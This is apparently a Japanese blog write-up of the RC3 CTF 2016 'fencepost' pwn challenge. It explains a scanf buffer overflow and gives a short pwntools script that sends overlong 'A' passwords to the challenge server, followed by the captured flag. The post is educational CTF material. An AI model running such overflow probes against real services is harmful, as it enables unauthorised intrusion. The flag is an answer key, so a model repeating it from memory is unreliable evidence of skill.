 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/11/21/rc3-ctf-2016-fencepost/
date: "2016-11-21T17:46:51+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "pwn" ]
---
```


# RC3 CTF 2016: fencepost

`scanf("%s", s);`のbofで特定の位置を$0$にするとflagが出てくる。なんだか配布されたのと鯖のとでバイナリが違うっぽいからとりあえず試してみたらflagが降ってきた。まさかこれでいいとは思わなかった。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='52.71.70.98')
parser.add_argument('port', nargs='?', default=2091, type=int)
args = parser.parse_args()

context.log_level = 'debug'
with remote(args.host, args.port) as p:
    for i in range(48, 0, -1):
        p.recvuntil('Password: ')
        p.sendline('A' * i)
```

flag: `RC3-2016-STACKPWN`
